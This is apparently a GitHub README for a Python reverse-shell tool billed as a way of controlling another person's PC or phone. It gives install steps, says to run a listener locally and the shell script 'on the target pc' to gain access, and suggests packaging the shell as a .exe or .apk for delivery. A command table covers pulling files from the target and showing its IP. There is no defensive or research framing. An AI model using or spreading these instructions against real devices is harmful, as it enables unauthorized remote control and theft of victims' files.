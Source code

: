 # netcut-and-reverce_shell
Controlling othe pc or phone with python
__________________________________
[#] install:
       ~$git clone https://github.com/omer-devil/netcut-and-reverce_shell/tree/main
       and move to the project directory:
             ~$cd netcut-and-reverce_shell
       now install the requirements
             ~$pip3 install -r requirements.txt
       
___________________________________
[#] how to use:
       first run Net-Cat on your computer:
               ~$python3 netcat.py
       then run reverce_shell on the target pc
               ~$python3 reverce_shell.py
       and then you get access to the target pc or phone
       note:-you can conver reverce_shell.py into .exe file or .apk file
            to conver it to .exe use pyinstaller and
            for .apk use buildozer
     
[#] all the command available with use and example:
    Commands.                 Use.                                  Example
    l-host.                   local-host <command>                  local-host ls
    download.                 download <file name>                  download music.mp4
    server.                   server <IP:PORT>                      server 127.0.0.1:468
    target-ip.                target-ip                             it shows the target ip
    output_save.              output_save <True/False>              output_seve True or output_save False
    
    help.                     shows this help message
